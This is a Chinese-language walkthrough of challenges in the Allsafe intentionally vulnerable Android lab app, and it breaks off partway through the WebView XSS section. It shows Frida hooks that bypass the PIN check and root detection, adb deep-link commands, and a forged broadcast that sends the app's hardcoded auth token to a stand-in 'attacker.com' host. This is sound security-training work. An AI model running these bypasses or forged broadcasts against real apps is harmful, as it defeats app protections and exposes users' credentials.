# Insecure Logging  不安全的日志记录
这个第一个挑战就是这个apk的日志信息泄露

用adb logcat查看日志信息，然后输入一个尝试密码‘weixiaoking’

<!-- 这是一张图片，ocr 内容为： -->


在日志里面就可以看到，所以如果输入的正确密码，可能存在信息泄露

<!-- 这是一张图片，ocr 内容为： -->


是源于此代码

<!-- 这是一张图片，ocr 内容为： -->


# Hardcoded Credentials  硬编码凭证
这一关就是说有一些硬编码的泄露

第一处内容为admin：psaaword123

<!-- 这是一张图片，ocr 内容为： -->


第二处

<!-- 这是一张图片，ocr 内容为： -->


# <font style="color:rgb(36, 36, 36);">Firebase Database:  Firebase 数据库</font>
**漏洞描述:**

Firebase 数据库漏洞源于开发者未能为其 Firebase 实时数据库或 Firestore 配置提供充分的访问控制。Firebase 实时数据库以 REST API 的形式运行，可通过在 URL 后添加 .json 访问；如果读写权限设置为“任何人”，未经身份验证的攻击者即可直接访问数据库。

在使用apkleaks对这个apk进行扫描时，发现这个apk确实用了Firebase

<!-- 这是一张图片，ocr 内容为： -->


<!-- 这是一张图片，ocr 内容为： -->


在jadx中搜索，url为[https://allsafe-8cef0.firebaseio.com](https://allsafe-8cef0.firebaseio.com)

<!-- 这是一张图片，ocr 内容为： -->


在url后加上/.json

<!-- 这是一张图片，ocr 内容为： -->


# Insecure Shared Preferences不安全的共享偏好
<!-- 这是一张图片，ocr 内容为： -->


**漏洞描述 ：**

当 Android 应用程序使用 SharedPreferences 机制存储敏感数据（例如用户名、密码、令牌、API 密钥、信用卡信息等）而未进行加密或缺乏足够的访问控制时，就会出现不安全的 Shared Preferences 漏洞。如果设备已获得 root 权限或运行恶意应用程序，则这些数据很容易被访问、读取和篡改。这可能导致用户数据被盗、身份验证被绕过或帐户被劫持。

每个应用都有自己的shared_prefs目录，通常位于/data/data/<包名>/shared_prefs/

我先随便设置一下用户名与密码

<!-- 这是一张图片，ocr 内容为： -->


现在去MT管理器查看

<!-- 这是一张图片，ocr 内容为： -->


# SQL Injection  SQL 注入
**漏洞定义 ：**

SQL 注入漏洞是指应用程序在未进行充分验证或过滤的情况下，直接将从用户接收的数据包含在 SQL 查询中。攻击者可以使用精心构造的输入（有效载荷）来获取对数据库的未经授权的访问权限，造成数据泄露，修改或删除数据，在某些情况下甚至可以在应用程序运行的服务器上执行命令。这种漏洞常见于 Web 应用程序、API 或移动应用程序的后端服务中。

源码

```java
    public static final void onCreateView$lambda$0(SQLiteDatabase $db, TextInputEditText $username, SQLInjection this$0, TextInputEditText $password, View it) throws NoSuchAlgorithmException {
        Cursor cursor = $db.rawQuery("select * from user where username = '" + ((Object) $username.getText()) + "' and password = '" + this$0.md5(String.valueOf($password.getText())) + "'", null);
        Intrinsics.checkNotNullExpressionValue(cursor, "rawQuery(...)");
        StringBuilder data = new StringBuilder();
        if (cursor.getCount() > 0) {
            cursor.moveToFirst();
            do {
                String user = cursor.getString(1);
                String pass = cursor.getString(2);
                data.append("User: " + user + " \nPass: " + pass + "\n");
            } while (cursor.moveToNext());
        }
        cursor.close();
        Toast.makeText(this$0.getContext(), data, 1).show();
    }
```

利用sql语句漏洞，获得了所有用户的用户名与密码

<!-- 这是一张图片，ocr 内容为： -->


# PIN Bypass  PIN 码旁路
<!-- 这是一张图片，ocr 内容为： -->


**漏洞描述 ：**

PIN 码绕过漏洞是一种安全缺陷，它允许应用程序或设备绕过用户 PIN 码（个人识别码）验证，或被他人绕过。

找到源码，其实pin码已经硬编码在代码里了，我们可以直接对其进行base64解码得到4863

<!-- 这是一张图片，ocr 内容为： -->


但这关是要让我们使用Frida来过关，我的思路是不验证随便输入一个都能通过验证，这需要我们来对验证函数进行挂钩

```java
Java.perform(function(){
    const pin=Java.use("infosecadventures.allsafe.challenges.PinBypass");
    pin.checkPin.implementation = function (pin){
    return true;
    }
})
```

```text
PS C:\Users\35159> frida -U -N infosecadventures.allsafe -l E:\ctf\linghsi\hook.js
     ____
    / _  |   Frida 17.8.0 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to Android Emulator 5554 (id=emulator-5554)
[Android Emulator 5554::infosecadventures.allsafe ]->
```

即使我输的不是4863，也会通过

<!-- 这是一张图片，ocr 内容为： -->


# Root Detection  根检测
<!-- 这是一张图片，ocr 内容为： -->


**漏洞描述 ：**

Root 检测绕过漏洞允许攻击者绕过 Android 应用程序中开发者添加的用于检测设备是否已 root 的检查机制。通常情况下，应用程序应被禁止在已 root 的设备上运行，或者需要提高安全级别。然而，这些检查机制的薄弱或错误实现使得攻击者能够操纵 root 检测机制，从而使应用程序能够在已 root 的设备上运行，并禁用安全措施。

源码

```java
public static final void onCreateView$lambda$0(RootDetection this$0, View it) {
        if (new RootBeer(this$0.getContext()).isRooted()) {
            SnackUtil snackUtil = SnackUtil.INSTANCE;
            FragmentActivity fragmentActivityRequireActivity = this$0.requireActivity();
            Intrinsics.checkNotNullExpressionValue(fragmentActivityRequireActivity, "requireActivity(...)");
            snackUtil.simpleMessage(fragmentActivityRequireActivity, "Sorry, your device is rooted!");
            return;
        }
        SnackUtil snackUtil2 = SnackUtil.INSTANCE;
        FragmentActivity fragmentActivityRequireActivity2 = this$0.requireActivity();
        Intrinsics.checkNotNullExpressionValue(fragmentActivityRequireActivity2, "requireActivity(...)");
        snackUtil2.simpleMessage(fragmentActivityRequireActivity2, "Congrats, root is not detected!");
    }
}
```

hook脚本，使用的类com.scottyab.rootbeer.RootBeer

<!-- 这是一张图片，ocr 内容为： -->


```java
Java.perform(function(){
    var rootdetection=Java.use("com.scottyab.rootbeer.RootBeer");
    rootdetection.isRooted.implementation = function (){
        return false;
    }
})
```

<!-- 这是一张图片，ocr 内容为： -->


现在来检测即使我们设备已经root了，也检测不到

<!-- 这是一张图片，ocr 内容为： -->


# Deep Link Exploitation  深度链接利用
**漏洞描述 ：**

深度链接利用漏洞源于移动应用程序中使用的深度链接机制未能得到安全验证。深度链接允许用户直接重定向到应用程序的特定屏幕或功能。如果应用程序在处理通过深度链接接收的参数或调用时缺乏足够的身份验证和授权控制，攻击者就可以通过精心构造的链接访问应用程序的关键功能。这会导致一系列安全风险，例如未经授权的用户修改帐户设置、在未登录的情况下被重定向到授权屏幕，或触发敏感操作。

源码定位

```java
public class DeepLinkTask extends AppCompatActivity {
    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_deep_link_task);
        Intent intent = getIntent();
        String action = intent.getAction();
        Uri data = intent.getData();
        Log.d("ALLSAFE", "Action: " + action + " Data: " + data);
        try {
            if (data.getQueryParameter("key").equals(getString(R.string.key))) {
                findViewById(R.id.container).setVisibility(0);
                SnackUtil.INSTANCE.simpleMessage(this, "Good job, you did it!");
            } else {
                SnackUtil.INSTANCE.simpleMessage(this, "Wrong key, try harder!");
            }
        } catch (Exception e) {
            SnackUtil.INSTANCE.simpleMessage(this, "No key provided!");
            Log.e("ALLSAFE", e.getMessage());
        }
    }
}
```

我们先去string.xml里找到内置的key

<!-- 这是一张图片，ocr 内容为： -->


url的具体格式要看AndroidManifest.xml里的这个Activity的intent-filter

<!-- 这是一张图片，ocr 内容为： -->


在 Android 应用程序中测试深度链接最常用的命令之一是 `adb shell am start`。

```java
adb shell am start -W -a android.intent.action.VIEW -d "deeplink://parametre?query=key" com.hedef.uygulama
```

`adb shell am start` → 通过 Activity Manager 启动一个新的 intent。

-W → 等待命令完成

-a android.intent.action.VIEW → 动作中的意图（在通用视图中进行深度链接）。

-d "deeplink://..." → 深度链接 URI（根据具体情况，此处会写入 URL 或自定义方案）。

com.target.application → 目标应用程序的包名。

根据我们上面找到的信息

```text
scheme-->allsafe(方案）
host-->infosecadventures(主机）
pathPrefix-->/congrats（路径前缀）
软件包名称-->infosecadventures.allsafe
key-->ebfb7ff0-b2f6-41c8-bef3-4fba17be410c
```

总和下来命令为

```powershell
adb shell am start -W -a android.intent.action.VIEW -d "allsafe://infosecadventures/congrats?key=ebfb7ff0-b2f6-41c8-bef3-4fba17be410c" infosecadventures.allsafe
```

<!-- 这是一张图片，ocr 内容为： -->


<!-- 这是一张图片，ocr 内容为： -->


# Insecure Broadcast Receiver 不安全的广播接收器
**漏洞描述 ：**

当 Android 应用中使用的广播接收器组件未进行适当的安全控制或未启用安全设置时，就会出现不安全的广播接收器漏洞。如果广播接收器被标记为 exports="true" 且未应用任何授权控制，其他应用或攻击者可以向该接收器发送恶意广播意图消息。这可能导致应用内触发未经授权的操作、访问敏感信息或出现意外的应用行为。

在AndroidMainfest.xml文件里确定确实是导出状态

<!-- 这是一张图片，ocr 内容为： -->


去看源码

```java
public class NoteReceiver extends BroadcastReceiver {
    @Override // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        String server = intent.getStringExtra("server");
        String note = intent.getStringExtra("note");
        String notification_message = intent.getStringExtra("notification_message");
        OkHttpClient okHttpClient = new OkHttpClient.Builder().build();
        HttpUrl httpUrl = new HttpUrl.Builder().scheme("http").host(server).addPathSegment("api").addPathSegment("v1").addPathSegment("note").addPathSegment("add").addQueryParameter("auth_token", "YWxsc2FmZV9kZXZfYWRtaW5fdG9rZW4=").addQueryParameter("note", note).build();
        Log.d("ALLSAFE", httpUrl.getUrl());
        Request request = new Request.Builder().url(httpUrl).build();
        okHttpClient.newCall(request).enqueue(new Callback(this) { // from class: infosecadventures.allsafe.challenges.NoteReceiver.1
            @Override // okhttp3.Callback
            public void onFailure(Call call, IOException e) {
                Log.d("ALLSAFE", e.getMessage());
            }

            @Override // okhttp3.Callback
            public void onResponse(Call call, Response response) throws IOException {
                Log.d("ALLSAFE", ((ResponseBody) Objects.requireNonNull(response.body())).string());
            }
        });
        NotificationCompat.Builder builder = new NotificationCompat.Builder(context, "ALLSAFE");
        builder.setContentTitle("Notification from Allsafe");
        builder.setContentText(notification_message);
        builder.setSmallIcon(R.mipmap.ic_launcher_round);
        builder.setAutoCancel(true);
        builder.setChannelId("ALLSAFE");
        Notification notification = builder.build();
        NotificationManager notificationManager = (NotificationManager) context.getSystemService("notification");
        NotificationChannel notificationChannel = new NotificationChannel("ALLSAFE", "ALLSAFE_NOTIFICATION", 4);
        notificationManager.createNotificationChannel(notificationChannel);
        notificationManager.notify(1, notification);
    }
}
```

先来分析一下吧

从广播里取参数

<!-- 这是一张图片，ocr 内容为： -->


发一个HTTP请求

```java
 HttpUrl httpUrl = new HttpUrl.Builder().scheme("http").host(server).addPathSegment("api").addPathSegment("v1").addPathSegment("note").addPathSegment("add").addQueryParameter("auth_token", "YWxsc2FmZV9kZXZfYWRtaW5fdG9rZW4=").addQueryParameter("note", note).build();
```

组合在一起，最终http长这样

```java
http://<server>/api/v1/note/add?auth_token=YWxsc2FmZV9kZXZfYWRtaW5fdG9rZW4=&note=<note>
```

异步发送

<!-- 这是一张图片，ocr 内容为： -->


伪造命令

```powershell
adb shell am broadcast -n infosecadventures.allsafe/.challenges.NoteReceiver -a infosecadventures.allsafe.action.PROCESS_NOTE --es server "attacker.com" --es note "hacked_by_me" --es notification_message "Hacked"
```

<!-- 这是一张图片，ocr 内容为： -->



# Vulnerable WebView  存在漏洞的 WebView
**漏洞描述 ：**

应用程序中使用的 WebView 组件通过 loadUrl() 和 loadData() 方法处理用户输入的数据，而未进行任何验证或过滤。loadUrl() 函数直接执行用户提供的 URL，而 loadData() 函数处理输入的 HTML/JavaScript 代码并将其渲染到浏览器引擎中。此外，使用 setJavaScriptEnabled(true) 允许攻击者执行恶意 JavaScript 代码。这可能使恶意用户能够在应用程序内执行 XSS 攻击、重定向到恶意网页或篡改应用程序内的数据。

源代码

 输入框里的内容要么被当成 URL 打开，要么被当成 HTML 直接渲染  

```java
public class VulnerableWebView extends Fragment {
    @Override // androidx.fragment.app.Fragment
    public View onCreateView(LayoutInflater inflater, ViewGroup container, Bundle savedInstanceState) {
        View view = inflater.inflate(R.layout.fragment_vulnerable_web_view, container, false);
        final TextInputEditText payload = (TextInputEditText) view.findViewById(R.id.payload);
        final WebView webView = (WebView) view.findViewById(R.id.webView);
        webView.setWebViewClient(new WebViewClient());
        WebSettings settings = webView.getSettings();
        settings.setJavaScriptEnabled(true);
        settings.setAllowFileAccess(true);
        settings.setLoadWithOverviewMode(true);
        settings.setSupportZoom(true);
        view.findViewById(R.id.execute).setOnClickListener(new View.OnClickListener() { // from class: infosecadventures.allsafe.challenges.VulnerableWebView$$ExternalSyntheticLambda0
            @Override // android.view.View.OnClickListener
            public final void onClick(View view2) {
                this.f$0.lambda$onCreateView$0(payload, webView, view2);
            }
        });
        return view;
    }

    /* JADX INFO: Access modifiers changed from: private */
    public /* synthetic */ void lambda$onCreateView$0(TextInputEditText payload, WebView webView, View v) {
        if (!((Editable) Objects.requireNonNull(payload.getText())).toString().isEmpty()) {
            if (URLUtil.isValidUrl(((Editable) Objects.requireNonNull(payload.getText())).toString())) {
                webView.loadUrl(payload.getText().toString());
                return;
            } else {
                webView.setWebChromeClient(new WebChromeClient());
                webView.loadData(payload.getText().toString(), "text/html", "UTF-8");
                return;
            }
        }
        SnackUtil.INSTANCE.simpleMessage(requireActivity(), "No payload provided!");
    }
}
```

题目要求

<!-- 这是一张图片，ocr 内容为： -->


先输入一个正常的url

<!-- 这是一张图片，ocr 内容为： -->
